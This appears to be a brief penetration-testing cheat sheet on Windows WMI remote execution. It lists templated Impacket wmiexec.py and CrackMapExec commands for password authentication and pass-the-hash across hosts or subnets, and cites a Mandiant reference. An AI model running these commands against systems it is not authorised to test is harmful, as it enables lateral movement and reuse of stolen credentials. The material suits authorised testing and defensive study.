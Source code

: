 # Unix Shell

## 01 - Impacket

- Authenticate via impacket script with WMIExec

`$ wmiexec.py <username>:<password>@<IP> [-codecs <codec>]`

- Pass the Hash

```
$ wmiexec.py <username>@<IP> -hashes <ntlm_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes aad3b435b51404eeaa3b435b51404ee:<nt_hash> [-codecs <codec>]

$ wmiexec.py <domain_name>/<username>@<IP> -hashes :<nt_hash> [-codecs <codec>]
```

## 02 - CrackMapExec

`$ crackmapexec smb <IP>/<CIDR> --exec-method wmiexec [-d <domain_name>] -u "<username>" -p "<password>"`

- Pass the Hash

`$ crackmapexec smb <IP>/<CIDR> --exec-method wmiexec [-d <domain_name>] -u "<username>" -H <nt_hash>`

---
## References

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)